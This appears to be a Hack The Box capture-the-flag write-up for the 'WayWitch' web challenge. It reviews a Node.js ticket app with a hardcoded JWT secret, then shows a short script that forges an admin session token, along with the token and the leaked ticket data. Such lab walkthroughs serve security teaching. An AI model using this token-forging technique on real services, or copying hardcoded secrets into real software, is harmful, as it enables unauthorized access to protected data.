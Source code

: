 ```yaml
---
title: WayWitch - Hack The Box
date: 2024-12-10
---
```


# WayWitch

## Challenge description

Hidden in the shadows, a coven of witches communicates through arcane tokens, their messages cloaked in layers of dark
enchantments. These enchanted tokens safeguard their cryptic conversations, masking sinister plots that threaten to
unfold under the veil of night. However, whispers suggest that their protective spells are flawed, allowing outsiders to
forge their own charms. Can you exploit the weaknesses in their mystical seals, craft a token of your own, and 
infiltrate their circle to thwart their nefarious plans before the next moon rises? NOTE: use https:// to connect to the
instance

## Challenge overview

In this challenge, we are presented with a web application that allows unauthenticated users to submit tickets to a
witches' coven.

![WayWitch - Overview](/ctf/hack-the-box/challenges/web/way-witch/overview.png){style="display: block; margin: 0 auto"}

## Code Review

### database.js

The application utilizes a SQLite3 database to store ticket information. The `tickets` table is pre-populated with
several entries, including one from the `admin` user containing the flag:

```javascript
await this.db.exec(`
      INSERT INTO tickets (name, username, content) VALUES
      ('John Doe', 'guest_1234', 'I need help with my account.'),
      ('Jane Smith', 'guest_5678', 'There is an issue with my subscription.'),
      ('Admin', 'admin', 'Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter ${flag}'),
      ('Paul Blake', 'guest_9012', 'Can someone assist with resetting my password?'),
      ('Alice Cooper', 'guest_3456', 'The app crashes every time I try to upload a picture.');
  `);
```

### rootes/index.js

The `/tickets` route displays the contents of the `tickets` table. Access to this route is restricted to users 
authenticated as `admin`:

```js
router.get("/tickets", async (req, res) => {
    const sessionToken = req.cookies.session_token; // [!code focus]

    if (!sessionToken) {
        return res.status(401).json(response("No session token provided"));
    }

    try {
        const username = getUsernameFromToken(sessionToken); // [!code focus]

        if (username === "admin") { // [!code focus]
            try {
                const tickets = await db.get_tickets(); // [!code focus]
                return res.status(200).json({ tickets }); // [!code focus]
            } catch (err) {
                return res
                    .status(500)
                    .json(response("Error fetching tickets: " + err.message));
            }
        } else {
            return res
                .status(403)
                .json(response("Access denied. Admin privileges required."));
        }
    } catch (err) {
        return res.status(400).json(response(err.message));
    }
});
```

This route checks for a `session_token` cookie, extracts the username using the `getUsernameFromToken` function, and
verifies if the user is `admin`. If so, it retrieves and returns the tickets; otherwise, it denies access.

### utils.js

The `getUsernameFromToken` function decodes the session token to extract the username:

```javascript
const jwt = require("jsonwebtoken");

function getUsernameFromToken(token) {
    const secret = "halloween-secret";

    try {
        const decoded = jwt.verify(token, secret);
        return decoded.username;
    } catch (err) {
        throw new Error("Invalid token: " + err.message);
    }
}
```

This function uses the `jsonwebtoken` library to verify and decode the token with the secret key `halloween-secret`. By
crafting a valid token with the username set to `admin`, an attacker can gain unauthorized access to the `/tickets`
route.

## Exploitation

To exploit this vulnerability, we can create a JSON Web Token (JWT) with the payload `{ "username": "admin" }` and sign
it using the secret key `halloween-secret`. This can be achieved using the `jsonwebtoken` library in Node.js:

```javascript
const jwt = require("jsonwebtoken");

console.log(jwt.sign({ username: "admin" }, "halloween-secret"));
```

Running this script will output a JWT:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzMzODY4MzQ3fQ.kmpxqrB-pmEqJf51ASzid27tIYtPRVZALeoriRSByqk
```

By setting this token as the value of the `session_token` cookie in the browser, we can access the `/tickets` route and
retrieve the flag:

```json
{
    "tickets": [
        {
            "id": 1,
            "name": "John Doe",
            "username": "guest_1234",
            "content": "I need help with my account."
        },
        {
            "id": 2,
            "name": "Jane Smith",
            "username": "guest_5678",
            "content": "There is an issue with my subscription."
        },
        { // [!code focus]
            "id": 3, // [!code focus]
            "name": "Admin", // [!code focus]
            "username": "admin", // [!code focus]
            "content": "Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}\n" // [!code focus]
        }, // [!code focus]
        {
            "id": 4,
            "name": "Paul Blake",
            "username": "guest_9012",
            "content": "Can someone assist with resetting my password?"
        },
        {
            "id": 5,
            "name": "Alice Cooper",
            "username": "guest_3456",
            "content": "The app crashes every time I try to upload a picture."
        }
    ]
}
```

The flag is in the content of the ticket created by the `admin` user:

```
Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

![WayWitch - pwned](/ctf/hack-the-box/challenges/web/way-witch/pwned.png)

## References

- [jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken)
